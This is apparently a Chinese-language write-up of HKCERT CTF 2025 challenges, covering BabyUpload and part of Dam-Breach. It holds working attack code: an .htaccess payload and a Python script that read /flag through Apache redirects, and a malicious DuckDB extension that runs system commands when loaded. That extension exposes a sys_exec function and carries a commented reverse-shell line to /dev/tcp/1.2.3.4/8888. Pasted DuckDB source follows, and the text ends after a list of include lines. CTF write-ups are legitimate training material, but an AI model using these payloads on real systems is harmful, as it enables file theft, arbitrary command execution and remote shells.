HKCERT CTF 2025 线上初赛于香港时间 2025 年 12 月 19 日 16:00 至 21 日 16:00 举行。本文整理 BabyUpload、Dam-Breach、Hessian-Labyrinth 和 NetWatcher 四道题的解题过程。


## BabyUpload

通过上传 `.htaccess` 利用 Apache 表达式读取文件，并从重定向响应中取得结果。

### 1. 资讯收集与测试

打开题目，发现是一个文件上传页面，标题为 “P-Phobia Upload”（P 恐惧症）。尝试上传 `shell.php` 时，文件被拦截；上传 `test.txt` 或图片则可以成功，并返回上传路径，例如 `/uploads/test.txt`。

推测题目过滤了 php 后缀，且环境为 Apache 服务器。尝试上传 `.htaccess` 文件，发现上传成功。

### 2. 漏洞分析

既然可以上传 `.htaccess`，我们可以控制 Apache 对该目录下文件的处理方式。
通常有几种思路：

1. **解析图片为 PHP**：使用 `AddType application/x-httpd-php .jpg`。但在 "P-Phobia" 的设定下，可能文件内容也过滤了 `<?php`，或者服务器禁用了其他后缀的解析。
2. **利用 Apache 表达式泄露文件**：这是非 RCE 的解法，直接读取 Flag。

Apache 2.4.x 版本支持表达式语法（Expression Parser）。我们可以使用 `Redirect` 指令，将请求重定向，并在重定向的 URL 中包含我们想要的文件内容。

**Payload 构造：**

```apache
redirect permanent "/%{BASE64:%{FILE:/flag}}"
```

- `redirect permanent`：通过 301 状态码重定向。
- `%{FILE:/flag}`：读取文件系统中的 `/flag` 内容。
- `%{BASE64:...}`：将读取到的内容进行 Base64 编码，防止换行符或特殊字符破坏 HTTP Header 结构。

### 3. 解题步骤

#### 第一步：编写恶意的 .htaccess

创建一个名为 `.htaccess` 的文件，内容如下：

```apache
redirect permanent "/%{BASE64:%{FILE:/flag}}"
```

#### 第二步：上传档案

通过题目页面上传该文件。Content-Type 建议修改为 `application/octet-stream` 防止被识别为文本，不过题目通常只校验后缀。

#### 第三步：触发漏洞

上传成功后，访问上传目录下的任意文件（即使是不存在的文件），例如 `http://target/uploads/.htaccess` 或者 `http://target/uploads/non_exist`。

Apache 会匹配到 `.htaccess` 中的规则，尝试读取 `/flag` 并进行重定向。

#### 第四步：获取 Flag

观察 HTTP 回应头（可以通过浏览器 F12 网络面板或 Python 脚本）：

```http
HTTP/1.1 301 Moved Permanently
Date: Sun, 07 Dec 2025 01:01:08 GMT
Location: http://localhost:12223/ZmxhZ3sxNTA4NzhmNC1lYzU0LTQyZWQtOTcwYi03NTc4NWE3ZDBkOGR9IA==
```

提取 `Location` 后的 Base64 字符串：
`ZmxhZ3sxNTA4NzhmNC1lYzU0LTQyZWQtOTcwYi03NTc4NWE3ZDBkOGR9IA==`

解码得到 Flag：
`flag{150878f4-ec54-42ed-970b-75785a7d0d8d}`

### 4. EXP 脚本 (Python)

```python
import requests
import base64
import re

url = "http://localhost:12223/"
# 1. 上傳惡意 .htaccess
files = {
    'file': ('.htaccess', 'redirect permanent "/%{BASE64:%{FILE:/flag}}"', 'application/octet-stream')
}
requests.post(url, files=files)

# 2. 訪問任意路徑觸發重定向
# allow_redirects=False 是關鍵，否則無法捕獲 301 Header
r = requests.get(url + "uploads/trigger", allow_redirects=False)

# 3. 提取 Location Header 並解碼
if r.status_code == 301:
    loc = r.headers.get('Location', '')
    print(f"Location Header: {loc}")
    # 提取最後一段 Base64
    if loc:
        b64_flag = loc.split("/")[-1]
        # 解碼
        try:
            # 處理可能的 padding 問題
            missing_padding = len(b64_flag) % 4
            if missing_padding:
                b64_flag += '=' * (4 - missing_padding)
            flag = base64.b64decode(b64_flag).decode()
            print(f"Flag: {flag}")
        except Exception as e:
            print(f"解碼失敗: {e}")
else:
    print(f"未觸發重定向，狀態碼: {r.status_code}")
```


## Dam-Breach

从 CloudBeaver 连接 DuckDB，结合扩展上传与加载分析完整利用过程。

### 漏洞分析

目标开放了 CloudBeaver 数据库管理界面，其中包含多种 JDBC 数据库连接；只有 DuckDB 支持创建内存数据库。



因此，将注意力转向 DuckDB 的扩展加载功能。扩展安装过程中存在严格限制：

> Extension installation is the process of downloading the extension binary and verifying its metadata. During installation, DuckDB stores the downloaded extension and some metadata in a local directory. From this directory DuckDB can then load the Extension whenever it needs to. This means that installation needs to happen only once.

### 构造 DuckDB 扩展

参考 [DuckDB 扩展模板](https://github.com/duckdb/extension-template/)编写扩展。CloudBeaver 中的 DuckDB 版本为 `v1.3.2`，编译时需要切换到对应版本。

```cpp
#define DUCKDB_EXTENSION_MAIN

#include "quack_extension.hpp"
#include "duckdb.hpp"
#include "duckdb/common/exception.hpp"
#include "duckdb/function/scalar_function.hpp"
#include "duckdb/main/extension_util.hpp"
#include <duckdb/parser/parsed_data/create_scalar_function_info.hpp>

// 系统命令执行需要的头文件
#include <cstdlib>
#include <cstdio>
#include <array>
#include <string>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>

extern "C" {
    #ifndef _WIN32
    __attribute__ ((__constructor__)) void preload (void){
        // 这里的命令会在 LOAD 语句执行的瞬间运行
        // 无论后续是否报错 "entrypoint not found"
    if (fork() == 0) {
        // 子进程
        unsetenv("LD_PRELOAD");
        system("find /etc/passwd -exec cat /root/flag '{}' ';' > /tmp/result");
        exit(0);
    }
        // 你甚至可以直接在这里反弹 shell，不用等 SQL 执行
        // system("bash -c 'bash -i >& /dev/tcp/1.2.3.4/8888 0>&1'");
    }
    #endif
}

namespace duckdb {

// -----------------------------------------------------------
// 恶意函数：执行系统命令 (Payload)
// -----------------------------------------------------------
inline void SystemExecScalarFun(DataChunk &args, ExpressionState &state, Vector &result) {
    auto &cmd_vector = args.data[0];

    UnaryExecutor::Execute<string_t, string_t>(cmd_vector, result, args.size(), [&](string_t cmd) {
        std::string command = cmd.GetString();
        std::string output_str = "";
        std::array<char, 128> buffer;

        // 执行命令
#ifdef _WIN32
        FILE* pipe = _popen(command.c_str(), "r");
        if (!pipe) return StringVector::AddString(result, "Error: _popen failed.");
        while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
            output_str += buffer.data();
        }
        _pclose(pipe);
#else
        FILE* pipe = popen(command.c_str(), "r");
        if (!pipe) return StringVector::AddString(result, "Error: popen failed.");
        while (fgets(buffer.data(), buffer.size(), pipe) != nullptr) {
            output_str += buffer.data();
        }
        pclose(pipe);
#endif

        return StringVector::AddString(result, output_str);
    });
}

// -----------------------------------------------------------
// 原始 Quack 函数 (Decoy)
// -----------------------------------------------------------
inline void QuackScalarFun(DataChunk &args, ExpressionState &state, Vector &result) {
    auto &name_vector = args.data[0];
    UnaryExecutor::Execute<string_t, string_t>(name_vector, result, args.size(), [&](string_t name) {
        return StringVector::AddString(result, "Quack " + name.GetString() + " 🐥");
    });
}

// -----------------------------------------------------------
// 注册逻辑
// -----------------------------------------------------------
static void LoadInternal(DatabaseInstance &instance) {
    // 1. 注册 sys_exec
    auto system_exec_function = ScalarFunction("sys_exec", {LogicalType::VARCHAR}, LogicalType::VARCHAR, SystemExecScalarFun);
    ExtensionUtil::RegisterFunction(instance, system_exec_function);

    // 2. 注册 quack
    auto quack_scalar_function = ScalarFunction("quack", {LogicalType::VARCHAR}, LogicalType::VARCHAR, QuackScalarFun);
    ExtensionUtil::RegisterFunction(instance, quack_scalar_function);
}

// -----------------------------------------------------------
// 类方法实现
// -----------------------------------------------------------
void QuackExtension::Load(DuckDB &db) {
    LoadInternal(*db.instance);
}

std::string QuackExtension::Name() {
    return "quack";
}

std::string QuackExtension::Version() const {
#ifdef EXT_VERSION_QUACK
    return EXT_VERSION_QUACK;
#else
    return "";
#endif
}

} // namespace duckdb

// -----------------------------------------------------------
// C 入口点 (Standard C Entry Points)
// -----------------------------------------------------------
extern "C" {

// 初始化函数：必须命名为 <extension_name>_init
DUCKDB_EXTENSION_API void quack_init(duckdb::DatabaseInstance &db) {
    duckdb::LoadInternal(db);
}

// 版本函数：必须命名为 <extension_name>_version
DUCKDB_EXTENSION_API const char *quack_version() {
    return duckdb::DuckDB::LibraryVersion();
}

}
```

```cpp
#pragma once

#include "duckdb.hpp"

namespace duckdb {

class QuackExtension : public Extension {
public:
    void Load(DuckDB &db) override;
    std::string Name() override;
    std::string Version() const override;
};

} // namespace duckdb
```

### 安装与加载流程

观察 DuckDB 的 `INSTALL` 和 `LOAD` 语句：`INSTALL` 支持从远端 HTTPS 地址或本地安装扩展，并会检查扩展签名。

```cpp
#include "duckdb/common/exception/http_exception.hpp"
#include "duckdb/common/gzip_file_system.hpp"
#include "duckdb/common/http_util.hpp"
#include "duckdb/common/local_file_system.hpp"
#include "duckdb/common/serializer/binary_serializer.hpp"
#include "duckdb/common/string_util.hpp"
#include "duckdb/common/types/uuid.hpp"
#include "duckdb/main/client_data.hpp"
#include "duckdb/main/extension_helper.hpp"
#include "duckdb/main/extension_install_info.hpp"
#include "duckdb/main/secret/secret.hpp"
#include "duckdb/main/secret/secret_manager.hpp"
#include "duckdb/main/settings.hpp"
#include "duckdb/common/windows_undefs.hpp"

#include <fstream>

namespace duckdb {

//===--------------------------------------------------------------------===//
// Install Extension
//===--------------------------------------------------------------------===//
const string ExtensionHelper::NormalizeVersionTag(const string &version_tag) {
 if (!version_tag.empty() && version_tag[0] != 'v') {
  return "v" + version_tag;
 }
 return version_tag;
}

bool ExtensionHelper::IsRelease(const string &version_tag) {
 return !StringUtil::Contains(version_tag, "-dev");
}

const string ExtensionHelper::GetVersionDirectoryName() {
#ifdef DUCKDB_WASM_VERSION
 return DUCKDB_QUOTE_DEFINE(DUCKDB_WASM_VERSION);
#endif
 if (IsRelease(DuckDB::LibraryVersion())) {
  return NormalizeVersionTag(DuckDB::LibraryVersion());
 } else {
  return DuckDB::SourceID();
 }
}

const vector<string> ExtensionHelper::PathComponents() {
 return vector<string> {GetVersionDirectoryName(), DuckDB::Platform()};
}

string ExtensionHelper::ExtensionInstallDocumentationLink(const string &extension_name) {
 auto components = PathComponents();

 string link = "https://duckdb.org/docs/stable/extensions/troubleshooting";

 if (components.size() >= 2) {
  link += "?version=" + components[0] + "&platform=" + components[1] + "&extension=" + extension_name;
 }

 return link;
}

vector<duckdb::string> ExtensionHelper::DefaultExtensionFolders(FileSystem &fs) {
 vector<duckdb::string> default_folders;
// These fallbacks are necessary if the user doesn't use the CMake build.
#ifndef DUCKDB_EXTENSION_DIRECTORIES
#ifdef _WIN32
#define DUCKDB_EXTENSION_DIRECTORIES "~\\.duckdb\\extensions"
#else
#define DUCKDB_EXTENSION_DIRECTORIES "~/.duckdb/extensions"
#endif
#endif
 string dirs_string(DUCKDB_EXTENSION_DIRECTORIES);

 // Skip if empty
 if (dirs_string.empty()) {
  return default_folders;
 }

 // Split the string by separator
 auto directories = StringUtil::Split(dirs_string, ';');

 for (auto &dir : directories) {
  // Skip empty directories
  if (dir.empty()) {
   continue;
  }

  default_folders.push_back(dir);
 }

 return default_folders;
}

vector<string> ExtensionHelper::GetExtensionDirectoryPath(ClientContext &context) {
 auto &db = DatabaseInstance::GetDatabase(context);
 auto &fs = FileSystem::GetFileSystem(context);
 return GetExtensionDirectoryPath(db, fs);
}

vector<string> ExtensionHelper::GetExtensionDirectoryPath(DatabaseInstance &db, FileSystem &fs) {
 vector<string> extension_directories;
 auto &config = db.config;

 if (!config.options.extension_directory.empty()) {
  extension_directories.push_back(config.options.extension_directory);
 }

 if (!config.options.extension_directories.empty()) {
  // Add all configured extension directories
  for (const auto &dir : config.options.extension_directories) {
   extension_directories.push_back(dir);
  }
 }
 if (extension_directories.empty()) {
  // Add default extension directory if no custom directories configured
  for (const auto &default_dir : ExtensionHelper::DefaultExtensionFolders(fs)) {
   extension_directories.push_back(default_dir);
  }
 }

 // Process all directories with common path operations
 auto path_components = PathComponents();
 for (auto &extension_directory : extension_directories) {
  // convert random separators to platform-canonic
  extension_directory = fs.ConvertSeparators(extension_directory);
  // expand ~ in extension directory
  extension_directory = fs.ExpandPath(extension_directory);

  // Add path components (version and platform)
  for (auto &path_ele : path_components) {
   extension_directory = fs.JoinPath(extension_directory, path_ele);
  }
 }

 return extension_directories;
}

string ExtensionHelper::ExtensionDirectory(DatabaseInstance &db, FileSystem &fs) {
#ifdef WASM_LOADABLE_EXTENSIONS
 throw PermissionException("ExtensionDirectory functionality is not supported in duckdb-wasm");
#endif
 auto extension_directories = GetExtensionDirectoryPath(db, fs);
 // TODO: This should never be the case given the implementation of GetExtensionDirectoryPath
 // should we still keep this check?
 D_ASSERT(!extension_directories.empty());

 string extension_directory = extension_directories[0]; // Use first/primary directory
 {
  if (!fs.DirectoryExists(extension_directory)) {
   string home_directory = fs.GetHomeDirectory();
   if (extension_directory.rfind(home_directory, 0) == 0 && !fs.DirectoryExists(home_directory)) {
    throw IOException("Can't find the home directory at '%s'\nSpecify a home directory using the SET "
                      "home_directory='/path/to/dir' option.",
                      home_directory);
   }
   fs.CreateDirectoriesRecursive(extension_directory);
  }
 }
 D_ASSERT(fs.DirectoryExists(extension_directory));

 return extension_directory;
}

string ExtensionHelper::ExtensionDirectory(ClientContext &context) {
 auto &db = DatabaseInstance::GetDatabase(context);
 auto &fs = FileSystem::GetFileSystem(context);
 return ExtensionDirectory(db, fs);
}

bool ExtensionHelper::CreateSuggestions(const string &extension_name, string &message) {
 auto lowercase_extension_name = StringUtil::Lower(extension_name);
 vector<string> candidates;
 for (idx_t ext_count = ExtensionHelper::DefaultExtensionCount(), i = 0; i < ext_count; i++) {
  candidates.emplace_back(ExtensionHelper::GetDefaultExtension(i).name);
 }
 for (idx_t ext_count = ExtensionHelper::ExtensionAliasCount(), i = 0; i < ext_count; i++) {
  candidates.emplace_back(ExtensionHelper::GetExtensionAlias(i).alias);
 }
 auto closest_extensions = StringUtil::TopNJaroWinkler(candidates, lowercase_extension_name);
 message = StringUtil::CandidatesMessage(closest_extensions, "Candidate extensions");
 for (auto &closest : closest_extensions) {
  if (closest == lowercase_extension_name) {
   message = "Extension \"" + extension_name + "\" is an existing extension.\n";
   return true;
  }
 }
 return false;
}

unique_ptr<ExtensionInstallInfo> ExtensionHelper::InstallExtension(DatabaseInstance &db, FileSystem &fs,
                                                                   const string &extension,
                                                                   ExtensionInstallOptions &options) {
#ifdef WASM_LOADABLE_EXTENSIONS
 // Install is currently a no-op
 return nullptr;
#endif
 string local_path = ExtensionDirectory(db, fs);
 return InstallExtensionInternal(db, fs, local_path, extension, options);
}

unique_ptr<ExtensionInstallInfo> ExtensionHelper::InstallExtension(ClientContext &context, const string &extension,
                                                                   ExtensionInstallOptions &options) {
#ifdef WASM_LOADABLE_EXTENSIONS
 // Install is currently a no-op
 return nullptr;
#endif
 auto &db = DatabaseInstance::GetDatabase(context);
 auto &fs = FileSystem::GetFileSystem(context);
 string local_path = ExtensionDirectory(context);
 return InstallExtensionInternal(db, fs, local_path, extension, options, context);
}

static unsafe_unique_array<data_t> ReadExtensionFileFromDisk(FileSystem &fs, const string &path, idx_t &file_size) {
 auto source_file = fs.OpenFile(path, FileFlags::FILE_FLAGS_READ);
 file_size = source_file->GetFileSize();
 auto in_buffer = make_unsafe_uniq_array<data_t>(file_size);
 source_file->Read(QueryContext(), in_buffer.get(), file_size);
 source_file->Close();
 return in_buffer;
}

static void WriteExtensionFileToDisk(FileSystem &fs, const string &path, void *data, idx_t data_size) {
 auto target_file = fs.OpenFile(path, FileFlags::FILE_FLAGS_WRITE | FileFlags::FILE_FLAGS_APPEND |
                                          FileFlags::FILE_FLAGS_FILE_CREATE_NEW);
 target_file->Write(data, data_size);
 target_file->Close();
 target_file.reset();
}

static void WriteExtensionMetadataFileToDisk(FileSystem &fs, const string &path, ExtensionInstallInfo &metadata) {
 auto file_writer = BufferedFileWriter(fs, path);
 BinarySerializer::Serialize(metadata, file_writer);
 file_writer.Sync();
}

string ExtensionHelper::ExtensionUrlTemplate(optional_ptr<const DatabaseInstance> db,
                                             const ExtensionRepository &repository, const string &version) {
 string versioned_path;
 if (!version.empty()) {
  versioned_path = "/${NAME}/" + version + "/${REVISION}/${PLATFORM}/${NAME}.duckdb_extension";
 } else {
  versioned_path = "/${REVISION}/${PLATFORM}/${NAME}.duckdb_extension";
 }
 string default_endpoint = ExtensionRepository::DEFAULT_REPOSITORY_URL;
#ifdef WASM_LOADABLE_EXTENSIONS
 versioned_path = versioned_path + ".wasm";
#else
 versioned_path = versioned_path + CompressionExtensionFromType(FileCompressionType::GZIP);
#endif
 string url_template = repository.path + versioned_path;
 return url_template;
}

string ExtensionHelper::ExtensionFinalizeUrlTemplate(const string &url_template, const string &extension_name) {
 auto url = StringUtil::Replace(url_template, "${REVISION}", GetVersionDirectoryName());
 url = StringUtil::Replace(url, "${PLATFORM}", DuckDB::Platform());
 url = StringUtil::Replace(url, "${NAME}", extension_name);
 return url;
}

static void CheckExtensionMetadataOnInstall(DatabaseInstance &db, void *in_buffer, idx_t file_size,
                                            ExtensionInstallInfo &info, const string &extension_name) {
 if (file_size < ParsedExtensionMetaData::FOOTER_SIZE) {
  throw IOException("Failed to install '%s', file too small to be a valid DuckDB extension!", extension_name);
 }

 auto parsed_metadata = ExtensionHelper::ParseExtensionMetaData(static_cast<char *>(in_buffer) +
                                                                (file_size - ParsedExtensionMetaData::FOOTER_SIZE));

 auto metadata_mismatch_error = parsed_metadata.GetInvalidMetadataError();

 if (!metadata_mismatch_error.empty() && !DBConfig::GetSetting<AllowExtensionsMetadataMismatchSetting>(db)) {
  throw IOException("Failed to install '%s'\n%s", extension_name, metadata_mismatch_error);
 }

 info.version = parsed_metadata.extension_version;
}

// Note: since this method is not atomic, this can fail in different ways, that should all be handled properly by
// DuckDB:
//   1. Crash after extension removal: extension is now uninstalled, metadata file still present
//   2. Crash after metadata removal: extension is now uninstalled, extension dir is clean
//   3. Crash after extension move: extension is now uninstalled, new metadata file present
static void WriteExtensionFiles(FileSystem &fs, const string &temp_path, const string &local_extension_path,
                                void *in_buffer, idx_t file_size, ExtensionInstallInfo &info) {
 // Write extension to tmp file
 WriteExtensionFileToDisk(fs, temp_path, in_buffer, file_size);

 // Write metadata to tmp file
 auto metadata_tmp_path = temp_path + ".info";
 auto metadata_file_path = local_extension_path + ".info";
 WriteExtensionMetadataFileToDisk(fs, metadata_tmp_path, info);

 fs.MoveFile(metadata_tmp_path, metadata_file_path);
 fs.MoveFile(temp_path, local_extension_path);
}

// Install an extension using a filesystem
static unique_ptr<ExtensionInstallInfo> DirectInstallExtension(DatabaseInstance &db, FileSystem &fs, const string &path,
                                                               const string &temp_path, const string &extension_name,
                                                               const string &local_extension_path,
                                                               ExtensionInstallOptions &options,
                                                               optional_ptr<ClientContext> context) {
 string extension;
 string file;
 if (fs.IsRemoteFile(path, extension)) {
  file = path;
  // Try autoloading httpfs for loading extensions over https
  if (context) {
   auto &db = DatabaseInstance::GetDatabase(*context);
   if (extension == "httpfs" && !db.ExtensionIsLoaded("httpfs") &&
       db.config.options.autoload_known_extensions) {
    ExtensionHelper::AutoLoadExtension(*context, "httpfs");
   }
  }
 } else {
  file = fs.ConvertSeparators(path);
 }

 // Check if file exists
 bool exists = fs.FileExists(file);

 // Recheck without .gz
 if (!exists && StringUtil::EndsWith(file, CompressionExtensionFromType(FileCompressionType::GZIP))) {
  file = file.substr(0, file.size() - 3);
  exists = fs.FileExists(file);
 }

 // Throw error on failure
 if (!exists) {
  if (!fs.IsRemoteFile(file)) {
   throw IOException("Failed to install local extension \"%s\", no access to the file at PATH \"%s\"\n",
                     extension_name, file);
  }
  if (StringUtil::StartsWith(file, "https://")) {
   throw IOException("Failed to install remote extension \"%s\" from url \"%s\"", extension_name, file);
  }
 }

 idx_t file_size;
 auto in_buffer = ReadExtensionFileFromDisk(fs, file, file_size);

 ExtensionInstallInfo info;

 string decompressed_data;
 void *extension_decompressed;
 idx_t extension_decompressed_size;

 if (GZipFileSystem::CheckIsZip(const_char_ptr_cast(in_buffer.get()), file_size)) {
  decompressed_data = GZipFileSystem::UncompressGZIPString(const_char_ptr_cast(in_buffer.get()), file_size);
  extension_decompressed = (void *)decompressed_data.data();
  extension_decompressed_size = decompressed_data.size();
 } else {
  extension_decompressed = (void *)in_buffer.get();
  extension_decompressed_size = file_size;
 }

 CheckExtensionMetadataOnInstall(db, extension_decompressed, extension_decompressed_size, info, extension_name);

 if (!options.repository) {
  info.mode = ExtensionInstallMode::CUSTOM_PATH;
  info.full_path = file;
 } else {
  info.mode = ExtensionInstallMode::REPOSITORY;
  info.full_path = file;
  info.repository_url = options.repository->path;
 }

 WriteExtensionFiles(fs, temp_path, local_extension_path, extension_decompressed, extension_decompressed_size, info);

 return make_uniq<ExtensionInstallInfo>(info);
}

#ifndef DUCKDB_DISABLE_EXTENSION_LOAD
static unique_ptr<ExtensionInstallInfo> InstallFromHttpUrl(DatabaseInstance &db, const string &url,
                                                           const string &extension_name, const string &temp_path,
                                                           const string &local_extension_path,
                                                           ExtensionInstallOptions &options,
                                                           optional_ptr<ClientContext> context) {
 unique_ptr<ExtensionInstallInfo> install_info;
 {
  auto fs = FileSystem::CreateLocal();
  if (fs->FileExists(local_extension_path + ".info")) {
   try {
    install_info =
        ExtensionInstallInfo::TryReadInfoFile(*fs, local_extension_path + ".info", extension_name);
   } catch (...) {
    if (!options.force_install) {
     // We are going to rewrite the file anyhow, so this is fine
     throw;
    }
   }
  }
 }

 HTTPHeaders headers(db);
 if (options.use_etags && install_info && !install_info->etag.empty()) {
  headers.Insert("If-None-Match", StringUtil::Format("%s", install_info->etag));
 }

 auto &http_util = HTTPUtil::Get(db);
 unique_ptr<HTTPParams> params;
 if (context) {
  params = http_util.InitializeParameters(*context, url);
 } else {
  params = http_util.InitializeParameters(db, url);
 }

 // Unclear what's peculiar about extension install flow, but those two parameters are needed
 // to avoid lengthy retry on 304
 params->follow_location = false;
 params->keep_alive = false;

 GetRequestInfo get_request(url, headers, *params, nullptr, nullptr);
 get_request.try_request = true;

 auto response = http_util.Request(get_request);
 if (!response->Success()) {
  // if we should not retry or exceeded the number of retries - bubble up the error
  string message;
  ExtensionHelper::CreateSuggestions(extension_name, message);

  auto documentation_link = ExtensionHelper::ExtensionInstallDocumentationLink(extension_name);
  if (!documentation_link.empty()) {
   message += "\nFor more info, visit " + documentation_link;
  }
  if (response->HasRequestError()) {
   // request error - this means something went wrong performing the request
   throw IOException("Failed to download extension \"%s\" at URL \"%s\"\n%s (ERROR %s)", extension_name, url,
                     message, response->GetRequestError());
  }
  // if this was not a request error this means the server responded - report the response status and response
  throw HTTPException(*response, "Failed to download extension \"%s\" at URL \"%s\" (HTTP %n)\n%s",
                      extension_name, url, int(response->status), message);
 }
 if (response->status == HTTPStatusCode::NotModified_304 && install_info) {
  return install_info;
 }

 auto decompressed_body = GZipFileSystem::UncompressGZIPString(response->body);

 ExtensionInstallInfo info;
 CheckExtensionMetadataOnInstall(db, (void *)decompressed_body.data(), decompressed_body.size(), info,
                                 extension_name);
 if (response->HasHeader("ETag")) {
  info.etag = response->GetHeaderValue("ETag");
 }

 if (options.repository) {
  info.mode = ExtensionInstallMode::REPOSITORY;
  info.full_path = url;
  info.repository_url = options.repository->path;
 } else {
  info.mode = ExtensionInstallMode::CUSTOM_PATH;
  info.full_path = url;
 }

 auto fs = FileSystem::CreateLocal();
 WriteExtensionFiles(*fs, temp_path, local_extension_path, (void *)decompressed_body.data(),
                     decompressed_body.size(), info);

 return make_uniq<ExtensionInstallInfo>(info);
}

// Install an extension using a hand-rolled http request
static unique_ptr<ExtensionInstallInfo> InstallFromRepository(DatabaseInstance &db, FileSystem &fs, const string &url,
                                                              const string &extension_name, const string &temp_path,
                                                              const string &local_extension_path,
                                                              ExtensionInstallOptions &options,
                                                              optional_ptr<ClientContext> context) {
 string url_template = ExtensionHelper::ExtensionUrlTemplate(db, *options.repository, options.version);
 string generated_url = ExtensionHelper::ExtensionFinalizeUrlTemplate(url_template, extension_name);

 // Special handling for http repository: avoid using regular filesystem (note: the filesystem is not used here)
 if (StringUtil::StartsWith(options.repository->path, "http://")) {
  return InstallFromHttpUrl(db, generated_url, extension_name, temp_path, local_extension_path, options, context);
 }

 // Default case, let the FileSystem figure it out
 return DirectInstallExtension(db, fs, generated_url, temp_path, extension_name, local_extension_path, options,
                               context);
}

static bool IsHTTP(const string &path) {
 return StringUtil::StartsWith(path, "http://") || !StringUtil::StartsWith(path, "https://");
}

static void ThrowErrorOnMismatchingExtensionOrigin(FileSystem &fs, const string &local_extension_path,
                                                   const string &extension_name, const string &extension,
                                                   optional_ptr<ExtensionRepository> repository) {
 auto install_info = ExtensionInstallInfo::TryReadInfoFile(fs, local_extension_path + ".info", extension_name);

 string format_string = "Installing extension '%s' failed. The extension is already installed "
                        "but the origin is different.\n"
                        "Currently installed extension is from %s '%s', while the extension to be "
                        "installed is from %s '%s'.\n"
                        "To solve this rerun this command with `FORCE INSTALL`";
 string repo = "repository";
 string custom_path = "custom_path";

 if (install_info) {
  if (install_info->mode == ExtensionInstallMode::REPOSITORY && repository &&
      install_info->repository_url != repository->path) {
   throw InvalidInputException(format_string, extension_name, repo, install_info->repository_url, repo,
                               repository->path);
  }
  if (install_info->mode == ExtensionInstallMode::REPOSITORY && ExtensionHelper::IsFullPath(extension)) {
   throw InvalidInputException(format_string, extension_name, repo, install_info->repository_url, custom_path,
                               extension);
  }
 }
}
#endif // DUCKDB_DISABLE_EXTENSION_LOAD

unique_ptr<ExtensionInstallInfo> ExtensionHelper::InstallExtensionInternal(DatabaseInstance &db, FileSystem &fs,
                                                                           const string &local_path,
                                                                           const string &extension,
                                                                           ExtensionInstallOptions &options,
                                                                           optional_ptr<ClientContext> context) {
#ifdef DUCKDB_DISABLE_EXTENSION_LOAD
 throw PermissionException("Installing external extensions is disabled through a compile time flag");
#else

 auto extension_name = ApplyExtensionAlias(fs.ExtractBaseName(extension));
 string local_extension_path = fs.JoinPath(local_path, extension_name + ".duckdb_extension");
 string temp_path = local_extension_path + ".tmp-" + UUID::ToString(UUID::GenerateRandomUUID());

 if (fs.FileExists(local_extension_path) && !options.force_install) {
  // File exists: throw error if origin mismatches
  if (options.throw_on_origin_mismatch && !DBConfig::GetSetting<AllowExtensionsMetadataMismatchSetting>(db) &&
      fs.FileExists(local_extension_path + ".info")) {
   ThrowErrorOnMismatchingExtensionOrigin(fs, local_extension_path, extension_name, extension,
                                          options.repository);
  }

  // File exists, but that's okay, install is now a NOP
  return nullptr;
 }

 fs.TryRemoveFile(temp_path);

 if (ExtensionHelper::IsFullPath(extension) && options.repository) {
  throw InvalidInputException("Cannot pass both a repository and a full path url");
 }

 // Resolve default repository if there is none set
 ExtensionRepository resolved_repository;
 if (!ExtensionHelper::IsFullPath(extension) && !options.repository) {
  resolved_repository = ExtensionRepository::GetDefaultRepository(db.config);
  options.repository = resolved_repository;
 }

 // Install extension from local, direct url
 if (ExtensionHelper::IsFullPath(extension) && !IsHTTP(extension)) {
  LocalFileSystem local_fs;
  return DirectInstallExtension(db, local_fs, extension, temp_path, extension, local_extension_path, options,
                                context);
 }

 // Install extension from local url based on a repository (Note that this will install it as a local file)
 if (options.repository && !IsHTTP(options.repository->path)) {
  LocalFileSystem local_fs;
  return InstallFromRepository(db, fs, extension, extension_name, temp_path, local_extension_path, options,
                               context);
 }

#ifdef DISABLE_DUCKDB_REMOTE_INSTALL
 throw BinderException("Remote extension installation is disabled through configuration");
#else

 // Full path direct installation
 if (IsFullPath(extension)) {
  if (StringUtil::StartsWith(extension, "http://")) {
   // HTTP takes separate path to avoid dependency on httpfs extension
   return InstallFromHttpUrl(db, extension, extension_name, temp_path, local_extension_path, options, context);
  }

  // Direct installation from local or remote path
  return DirectInstallExtension(db, fs, extension, temp_path, extension, local_extension_path, options, context);
 }

 // Repository installation
 return InstallFromRepository(db, fs, extension, extension_name, temp_path, local_extension_path, options, context);
#endif
#endif
}

} // namespace duckdb
```

`LOAD` 则负责将二进制文件加载到 DuckDB 实例，并在加载过程中依据文件名查找相应函数。

```cpp

#include "duckdb.h"
#include "duckdb/common/dl.hpp"
#include "duckdb/common/operator/cast_operators.hpp"
#include "duckdb/common/string_util.hpp"
#include "duckdb/common/virtual_file_system.hpp"
#include "duckdb/main/capi/capi_internal.hpp"
#include "duckdb/main/capi/extension_api.hpp"
#include "duckdb/main/error_manager.hpp"
#include "duckdb/main/extension_helper.hpp"
#include "duckdb/main/extension_manager.hpp"
#include "duckdb/main/settings.hpp"
